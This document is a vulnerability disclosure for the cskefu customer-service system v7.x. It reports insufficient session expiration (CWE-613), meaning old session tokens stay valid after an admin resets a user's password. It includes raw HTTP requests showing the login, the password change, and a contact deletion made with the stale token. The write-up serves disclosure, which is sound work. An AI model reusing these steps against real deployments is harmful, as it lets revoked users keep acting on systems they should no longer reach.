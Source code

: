 ## TYPE: Insufficient Session Expiration(CWE-613)
## Date: 5/12/2024

## Basic Information
+ Vendor: [cskefu](https://github.com/cskefu)
+ Homepage: https://github.com/cskefu/cskefu
+ **Affected Version**: v7.x

## Tested on: Debian Linux

## Exploit Description
The user can still operate successfully after the admin changes/reset the user's password.
The system is affected by CWE613-Insufficient Session Expiration, which indicates that previous sessions or authentication tokens tied to the old password remain valid and can still be utilized.

### PoC
**PoC video** [reference](https://1drv.ms/v/s!AmTWEcd1YDpUjg095kRTaxRVZaU8?e=jsHtoK)
**Steps**:
1. `admin` login, `user1` login.

`user1` login:
```
POST /login.html HTTP/1.1
username=user1&password=user123
...
response:
HTTP/1.1 302
Set-Cookie: authorization=7a9e00c3aba14cfe9b7577a614030ecf
```
3. `admin` modify `user1`'s password.
   ```
   POST /api/user HTTP/1.1
   Cookie: _ga=GA1.1.841718065.1715481718; SESSION=3f0bb1c3-bf2d-4787-9a50-617e8bc98ee5; authorization=649dda8bf02f44b98c824ae57e2a839b; _ga_SBBX10RKTC=GS1.1.1715495361.3.1.1715495367.
   ...
   {"id":"2c9280868f6aa4a9018f6b5c9b1c008a","username":"user1","uname":"user1","email":"","password":"admin123","repassword":"admin123","mobile":"","ops":"update"}
   ```
4. `user1` still be online, and can operate successfully with the old session/token, like deleting contacts.
<img width="1104" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/058d3cce-1e40-4c74-b1be-d4bf85114a55">

```
GET /apps/contacts/delete.pug?id=95027150558c4e25a58d3907ee6fda99&ckind= HTTP/1.1
Cookie: _ga=GA1.1.1578594732.1715483346; SESSION=0dcc6821-75df-46ae-a5ce-27e217915007; authorization=7a9e00c3aba14cfe9b7577a614030ecf; _ga_SBBX10RKTC=GS1.1.1715493138.2.1.1715495577.0.0.0
...
```
<img width="723" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/75300894-db56-4844-935e-c65b4a5e8dff">



